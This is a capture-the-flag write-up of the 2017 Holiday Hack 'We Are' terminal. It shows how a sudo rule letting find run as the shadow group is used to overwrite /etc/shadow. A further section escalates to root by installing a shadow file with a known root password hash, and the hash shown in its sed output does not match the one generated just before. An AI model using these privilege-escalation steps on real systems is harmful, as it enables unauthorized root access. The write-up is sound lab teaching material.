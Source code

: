 * Oh Wait! Maybe WE Are...
   :PROPERTIES:
   :CUSTOM_ID: title
   :END:

** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

** How to find the terminal
   :PROPERTIES:
   :CUSTOM_ID: how-to-find-the-terminal
   :END:

From this game: https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5

Direct link: https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

#+CAPTION: The terminal is just behind the starting ramp on the main platform.
[[./images/terminal-location-we_are.png]]

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system MOTD gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC sh
elf@784e43534178:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

** Hints
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

Shinny Upatree on Twitter has a few hints:

#+HTML: <blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">I think I have some pseudo (sp?) permissions on this Unix server, but I don&#39;t know what that means. <a href="https://twitter.com/GreenesterElf?ref_src=twsrc%5Etfw">@GreenesterElf</a> said this was a &quot;learning opportunity&quot; and won&#39;t give me the answer :&#39;(</p>&mdash; Shinny Upatree (@ClimbALLdaTrees) <a href="https://twitter.com/ClimbALLdaTrees/status/938578359860174848?ref_src=twsrc%5Etfw">December 7, 2017</a></blockquote>

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC sh
elf@784e43534178:~$ sudo --list
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC sh
elf@784e43534178:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC sh
elf@784e43534178:~$ sudo -l -l
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC sh
elf@784e43534178:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC sh
elf@784e43534178:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC sh
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC sh
elf@784e43534178:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

A one-liner is:

#+BEGIN_SRC sh
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

AsciiCinema video of the solution?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC sh
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.

** Going Further - Privilege Escalation

This is neat, but let's elevate privileges to root on this
terminal. Our approach will be to put in a modified shadow file
instead, which will have a password we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC sh
elf@784e43534178:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC sh
elf@784e43534178:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC sh
elf@784e43534178:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@784e43534178:~$ su
Password: 
root@784e43534178:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
